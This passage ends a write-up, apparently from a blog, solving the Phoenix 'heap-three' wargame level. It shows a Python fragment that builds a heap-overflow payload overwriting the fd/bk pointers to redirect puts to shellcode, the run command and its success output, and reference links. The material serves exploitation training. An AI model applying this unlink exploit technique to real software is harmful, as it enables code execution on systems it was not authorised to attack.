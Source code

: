 ```python

# third chunk
buff += 'AAAA'			# junk
buff += p32(puts_addr-12)	# will be p->fd
buff += p32(shellcode_addr)	# will be p->bk

print(buff)
```

```
$ /opt/phoenix/i486/heap-three $(python solve.py)
Level was successfully completed at @ 1580754261 seconds past the Epoch
```

This might not be the best explanation but this level really required a lot of reading from different resources to grasp the concepts.

Note that this exploit is already patched in newer version of malloc.

#### References:

[https://azeria-labs.com/heap-exploitation-part-1-understanding-the-glibc-heap-implementation/](https://azeria-labs.com/heap-exploitation-part-1-understanding-the-glibc-heap-implementation/)

[https://azeria-labs.com/heap-exploitation-part-2-glibc-heap-free-bins/](https://azeria-labs.com/heap-exploitation-part-2-glibc-heap-free-bins/)

[https://sensepost.com/blog/2017/painless-intro-to-the-linux-userland-heap/](https://sensepost.com/blog/2017/painless-intro-to-the-linux-userland-heap/)

[https://www.youtube.com/watch?v=gL45bjQvZSU](https://www.youtube.com/watch?v=gL45bjQvZSU)


